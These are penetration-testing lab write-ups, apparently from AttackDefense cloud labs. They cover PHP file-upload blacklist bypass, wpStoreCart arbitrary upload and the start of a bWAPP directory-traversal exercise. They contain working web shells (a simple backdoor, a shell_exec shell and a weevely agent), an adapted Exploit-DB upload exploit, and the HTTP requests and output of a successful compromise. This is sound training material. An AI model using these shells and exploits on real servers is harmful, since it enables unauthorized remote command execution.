The target server has not been properly secured against <u>arbitrary file upload</u> and <u>execution vulnerability</u>. <u>The administrator has used a blacklisting approach but forgotten to add other executable file extensions to this list</u>.
This example also proves why <u>blacklisting is not considered a good security measure</u>.

**Objective**: Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag!

#### Lab Solution

`whatweb https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/`:
```
https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/ [200 OK] Apache, Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[Apache], IP[172.104.136.144], JQuery, PHP[5.5.9-1ubuntu4.25], Script, X-Powered-By[PHP/5.5.9-1ubuntu4.25]📌
```

`echo '<?php echo "test" ?>' > ./test.php`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------3258681235955572122686784594
Content-Length: 252
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------3258681235955572122686784594
Content-Disposition: form-data; name="fileToUpload"; filename="test.php"📌
Content-Type: application/x-php📌

<?php echo "test" ?>

-----------------------------3258681235955572122686784594--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:21:13 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4061


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                   </div>

[...]
```

`gobuster dir --url https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/.hta                 (Status: 403) [Size: 206]
/.htaccess            (Status: 403) [Size: 211]
/.htpasswd            (Status: 403) [Size: 211]
/cgi-bin/             (Status: 403) [Size: 210]
/index.php            (Status: 200) [Size: 3399]
/LICENSE              (Status: 200) [Size: 10273]
/phpinfo.php          (Status: 200) [Size: 76222]
/server-status        (Status: 403) [Size: 215]
/static               (Status: 301) [Size: 288] [--> http://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/static/]
/uploads              (Status: 301) [Size: 289] [--> http://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php`:
```php
<?php echo "test" ?>
```

`mv ./test.php ./test.php7`

`burpsuite` > `Repeater`

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------119337070515117360592942719626
Content-Length: 264
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------119337070515117360592942719626
Content-Disposition: form-data; name="fileToUpload"; filename="test.php7"📌
Content-Type: application/octet-stream📌

<?php echo "test" ?>

-----------------------------119337070515117360592942719626--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:22:46 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4062


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                   </div>

[...]
```

`curl https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/test.php7`:
```
test
```

`locate -i 'webshells' | grep -E '\.php$'`:
```
/usr/share/webshells/php/php-backdoor.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/qsd-php-backdoor.php
/usr/share/webshells/php/simple-backdoor.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php
```

`cp /usr/share/webshells/php/simple-backdoor.php ./simple-backdoor.php7`

`cat ./simple-backdoor.php7`:
```php
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->
```

`HTTP Request`:
```http
POST /index.php HTTP/2
Host: rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------30586794552660421611961380276
Content-Length: 580
Origin: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com
Referer: https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

-----------------------------30586794552660421611961380276
Content-Disposition: form-data; name="fileToUpload"; filename="simple-backdoor.php7"📌
Content-Type: application/octet-stream📌

<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>📌

Usage: http://target.com/simple-backdoor.php?cmd=cat+/etc/passwd

<!--    http://michaeldaw.org   2006    -->

-----------------------------30586794552660421611961380276--
```
`HTTP Response`:
```http
HTTP/2 200 OK
Content-Type: text/html
Date: Thu, 28 Nov 2024 14:25:21 GMT
Server: Apache
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Content-Length: 4073


<!DOCTYPE html>
<html lang="en">

[...]

	<div class="media-body">
	     <a href='uploads/test.jpg'>File Uploaded Succesfully</a>📌                    </div>

[...]
```

`curl 'https://rx4wzfytquihpo0ce9jpk63gr.eu-central-7.attackdefensecloudlabs.com/uploads/simple-backdoor.php7?cmd=id'`:
```html
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>🚩
```

### WordPress wpStoreCart File Upload

#### Lab Environment

**WordPress wpStoreCart**

The attacker might not have any user level access to the web application. However, this does not mean that the application cannot be compromised remotely. <u>File Upload vulnerabilities could be triggered even by unauthenticated users</u>.

In the exercise below, the attacker is unauthenticated to the web application and needs to find a file upload attack to eventually run arbitrary commands on the server.

<u>A version of WordPress `wpStoreCart` Plugin is vulnerable to a file upload attack</u>.

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution



`whatweb https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/`:
```
https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/ [200 OK] Apache[2.4.7], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[172.104.229.221], JQuery[1.11.3], MetaGenerator[WordPress 4.4],📌 PHP[5.5.9-1ubuntu4.25], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[wpvuln &#8211; Just another WordPress site], UncommonHeaders[link], WordPress[4.4], X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```

`wpscan --url https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/ [172.104.229.221]
[+] Started: Thu Nov 28 15:33:51 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.4 identified (Insecure, released on 2015-12-09).
 | Found By: Rss Generator (Passive Detection)
 |  - https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/?feed=rss2, <generator>https://wordpress.org/?v=4.4</generator>
 |  - https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.4</generator>

[+] WordPress theme in use: twentysixteen
 | Location: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4, Match: 'Version: 1.0'

[+] Enumerating All Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:📌

[+] wpstorecart📌
 | Location: https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 2.5.29 (100% confidence)📌
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/readme.txt

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <==============================================================================================================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Nov 28 15:33:59 2024
[+] Requests Done: 188
[+] Cached Requests: 5
[+] Data Sent: 69.55 KB
[+] Data Received: 21.915 MB
[+] Memory used: 285.859 MB
[+] Elapsed time: 00:00:08
```

`gobuster dir --url https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/ --wordlist /usr/share/wordlists/dirb/common.txt`:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 347]
/.htaccess            (Status: 403) [Size: 352]
/.htpasswd            (Status: 403) [Size: 352]
/index.php            (Status: 200) [Size: 0]
/plugins              (Status: 301) [Size: 430] [--> http://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/]
/themes               (Status: 301) [Size: 429] [--> http://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/themes/]
/uploads              (Status: 301) [Size: 430] [--> http://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/]📌
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

`curl -X GET https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/ | htmlq`:
```html
<html><head>
  <title>Index of /wp-content/uploads</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads</h1>
  <table>
   <tbody><tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/wp-content/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="2019/">2019/</a></td><td align="right">2019-07-03 06:55  </td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="wpstorecart/">wpstorecart/</a></td><td align="right">2019-07-03 06:55  </td><td align="right">  - </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

`searchsploit 'wpstorecart'`:
```
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
WordPress Plugin wpStoreCart 2.5.27-2.5.29 - Arbitrary File Upload      | php/webapps/19023.php
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/19023.php ./`

`cat ./19023.php`:
```php
##################################################
# Description : Wordpress Plugins - wpStoreCart Arbitrary File Upload
Vulnerability
# Version : 2.5.27 - 2.5.29
# Link : http://wordpress.org/extend/plugins/wpstorecart/
# Plugins : http://downloads.wordpress.org/plugin/wpstorecart.2.5.29.zip
# Date : 03-06-2012
# Google Dork : inurl:/wp-content/plugins/wpstorecart/
# Author : Sammy FORGIT - sam at opensyscom dot fr -
http://www.opensyscom.fr
##################################################


Exploit :

PostShell.php
<?php

$uploadfile="lo.php";
$ch =
curl_init("http://www.exemple.com/wordpress/wp-content/plugins/wpstorecart/php/upload.php");📌
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>"@$uploadfile"));📌
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>

Shell Access :
http://www.exemple.com/wordpress/wp-content/uploads/wpstorecart/lo.php

lo.php
<?php
phpinfo();
?>
```

`vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]);
echo "<pre>".$output."</pre>"
?>
```

`php -f ./wpstorecart_exploit.php`:
```
PHP Fatal error:  Uncaught Error: Call to undefined function curl_init() in /home/kali/wpstorecart_exploit.php:5
Stack trace:
#0 {main}
  thrown in /home/kali/wpstorecart_exploit.php on line 5
```
❌

`sudo apt install php-curl`

`php -f ./wpstorecart_exploit.php`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

`curl 'https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/shell.php?cmd=id'`:
```html
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

`weevely generate 'password123' ./weevely_shell.php`:
```
Generated './weevely_shell.php' with password 'password123' of 688 byte size.
```

`vim ./wpstorecart_exploit.php`:
```php
<?php

$uploadfile="/home/kali/weevely_shell.php";
$ch =
curl_init("https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php");
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS,
         array('Filedata'=>curl_file_create($uploadfile)));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);
print "$postResult";

?>
```

`php -f ./wpstorecart_exploit.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php`

`weevely https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/weevely_shell.php 'password123'`:
```
[+] weevely 4.0.1

[+] Target:     f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com
[+] Session:    /home/kali/.weevely/sessions/f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/weevely_shell_0.session

[+] Browse the filesystem or execute commands starts the connection
[+] to the target. Type :help for more information.

weevely> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ :system_info
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
| document_root      | /var/www/html |
| pwd                | /app/wp-content/uploads/wpstorecart |
| script_folder      | /app/wp-content/uploads/wpstorecart |
| script             | /wp-content/uploads/wpstorecart/weevely_shell.php |
| php_self           | /wp-content/uploads/wpstorecart/weevely_shell.php |
| whoami             | www-data |
| hostname           | attackdefense.com |
| open_basedir       |
|
| disable_functions  | pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority, |
| safe_mode          | False |
| uname              | Linux attackdefense.com 6.8.0-40-generic #40-Ubuntu SMP PREEMPT_DYNAMIC Fri Jul  5 10:34:03 UTC 2024 x86_64 |
| os                 | Linux x86_64 |
| client_ip          | 10.1.0. 2|
| server_name        | f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com |
| max_execution_time | 30 |
| php_version        | 5.5.9-1ubuntu4.25 |
+--------------------+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+
```
```
www-data@attackdefense.com:/app/wp-content/uploads/wpstorecart $ env
SUPERVISOR_GROUP_NAME=apache2
HOSTNAME=attackdefense.com
SHLVL=0
APACHE_RUN_DIR=/var/run/apache2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
LAYOUT=en-us-qwerty
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
APACHE_LOCK_DIR=/var/lock/apache2
LANG=C
SUPERVISOR_ENABLED=1
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data
base=/tmp/files
APACHE_LOG_DIR=/var/log/apache2
SUPERVISOR_SERVER_URL=unix:///var/run/supervisor.sock
SUPERVISOR_PROCESS_NAME=apache2
PWD=/app/wp-content/uploads/wpstorecart
```

`echo '<?php echo "This is just an upload test php file." ?>' > ./upload_test.php`

`curl https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/plugins/wpstorecart/php/upload.php --form 'Filedata=@./upload_test.php'`

`curl -s https://f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com/wp-content/uploads/wpstorecart/ | htmlq`:
```html
<html><head>
  <title>Index of /wp-content/uploads/wpstorecart</title>
 </head>
 <body>
<h1>Index of /wp-content/uploads/wpstorecart</h1>
  <table>
   <tbody><tr><th valign="top"></th><th><a href="?C=N;O=D">Name</a></th><th><a href="?C=M;O=A">Last modified</a></th><th><a href="?C=S;O=A">Size</a></th><th><a href="?C=D;O=A">Description</a></th></tr>
   <tr><th colspan="5"><hr></th></tr>
<tr><td valign="top"></td><td><a href="/wp-content/uploads/">Parent Directory</a></td><td>&nbsp;</td><td align="right">  - </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="shell.php">shell.php</a></td><td align="right">2024-11-28 14:52  </td><td align="right"> 75 </td><td>&nbsp;</td></tr>
<tr><td valign="top"></td><td><a href="upload_test.php">upload_test.php</a></td><td align="right">2024-11-28 14:46  </td><td align="right"> 54 </td><td>&nbsp;</td></tr>📌
   <tr><th colspan="5"><hr></th></tr>
</tbody></table>
<address>Apache/2.4.7 (Ubuntu) Server at f3fntfsdrgn4glmki9lin9aib.eu-central-5.attackdefensecloudlabs.com Port 80</address>

</body></html>
```

---

## Directory/Path Traversal

### Directory Traversal Basics

#### Lab Environment

**Directory Traversal**

[OWASP Top 10](https://owasp.org/www-project-top-ten/) is an awareness document, which outlines the most critical security risks to web applications. Pentesting is performed according to the OWASP TOP 10 standard to reduce/mitigate the security risks.

In the exercise, we will focus on [OWASP A5: Broken Access Control](https://owasp.org/www-project-top-ten/2017/A5_2017-Broken_Access_Control) flaws and we will take a look at how to exploit the vulnerability on the [bWAPP](http://www.itsecgames.com/) web application.

**Objective**: Leverage the directory traversal vulnerability and find more information about the system. 

Instructions: 
- This lab is dedicated to you! No other users are on this network :)
- Once you start the lab, you will have access to a Kali GUI instance.
- Your Kali instance has an interface with IP address `192.X.Y.2`. Run `ip addr` to know the values of X and Y.
- Do not attack the gateway located at IP address `192.X.Y.1`.

The following credentials might be needed:
- Username: "bee"
- Password: "bug".

#### Lab Solution

`ifconfig eth1`:
```
eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.140.162.2📌 netmask 255.255.255.0  broadcast 192.140.162.255
        ether 02:42:c0:8c:a2:02  txqueuelen 0  (Ethernet)
        RX packets 15  bytes 1322 (1.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

`whatweb http://192.140.162.3/`:
```
http://192.140.162.3/ [302 Found] Apache[2.4.7], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.140.162.3], PHP[5.5.9-1ubuntu4.25], RedirectLocation[portal.php], X-Powered-By[PHP/5.5.9-1ubuntu4.25]

http://192.140.162.3/portal.php [302 Found] Apache[2.4.7], Cookies[PHPSESSID], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[192.140.162.3], PHP[5.5.9-1ubuntu4.25], RedirectLocation[login.php], X-Powered-By[PHP/5.5.9-1ubuntu4.25]

http://192.140.162.3/login.php [200 OK] Apache[2.4.7], Cookies[PHPSESSID], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)],📌 IP[192.140.162.3], PHP[5.5.9-1ubuntu4.25], PasswordField[password], Script, Title[bWAPP - Login], X-Powered-By[PHP/5.5.9-1ubuntu4.25]
```



`burpsuite` > `Repeater`

`HTTP Request`:
```http
GET /directory_traversal_1.php?page=../📌 HTTP/1.1
Host: 192.140.162.3
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=o78ej90h8cj91g69nkbm3km0l5; security_level=0
Upgrade-Insecure-Requests: 1
```
`HTTP Response`:
```http
HTTP/1.1 200 OK
Date: Thu, 28 Nov 2024 17:02:34 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.25
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 13078
Connection: close
Content-Type: text/html

<!DOCTYPE html>
<html>
    
[...]

<div id="main">
    
    <h1>Directory Traversal - Files</h1>

    This file doesn't exist!

</div>
    
[...]
```
❌

